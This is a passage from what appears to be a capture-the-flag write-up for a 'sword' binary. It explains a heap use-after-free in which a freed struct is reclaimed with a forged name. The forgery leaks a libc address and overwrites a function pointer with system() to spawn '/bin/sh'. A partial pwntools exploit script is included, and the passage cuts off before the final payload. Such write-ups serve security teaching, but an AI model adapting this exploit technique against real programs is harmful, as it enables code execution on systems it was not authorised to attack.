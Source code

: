 ```c
	sword_lists[slot].sword->sword_name = malloc(len + 1);
```

If we request a name of length `sizeof(struct sword_s)`, the heap manager would probably give us the same allocation which was used to store the `struct sword_s` that we've tricked the program to free in the previous step. Furthermore, if instead of just a name, we provide data which is crafted to look like a `struct sword_s`, we will end up with a sword entry that is indistinguishable from a legitimate sword entry, but is completely controlled by us. And as an added bonus, `struct sword_s` contains both a string and a function pointer:
```c
struct sword_s {
	int name_len;
	int weight;
	
	char *sword_name;
	void (*use_sword)(char *ptr);
	int is_hardened;
};
``` 

We will use this trick twice: First, to leak the address of a libc function via the sword name, which will allow us to calculate the libc base. Then again, by setting `use_sword` to `system()` and calling it on a sword name which will point to `/bin/sh`.

The script:
```python
from pwn import *
from ctypes import *
import re

PROGRAM = "./sword"
LIBC = "./libc.so.6"
MAX_SWORD_LEN = 0x100

class sword_s(Structure):
    _fields_ = [('name_len', c_int32),
                ('weight', c_int32),
                ('sword_name', c_int64),
                ('use_sword', c_int64),
                ('is_hardened', c_int32)]
    def to_bytes(self):
        return buffer(self)[:]


def read_menu():
    p.recvuntil("Quit.\n")

def forge_sword():
    read_menu()
    p.sendline("1")
    out = p.recvline()
    id = re.search("index is (\d+)\.", out).group(1)
    log.info("Forged sword: {}".format(id))
    return id

def show_sword(id):
    read_menu()
    p.sendline("3")
    p.recvuntil("What's the index of the sword?\n")
    p.sendline(str(id))
    p.recvline()
    out = p.recvline(keepends=True)
    name = re.search("name is (.+)\n", out).group(1)
    log.info("Sword #{} has name '{}' ({})".format(id, name, enhex(name)))
    return name
```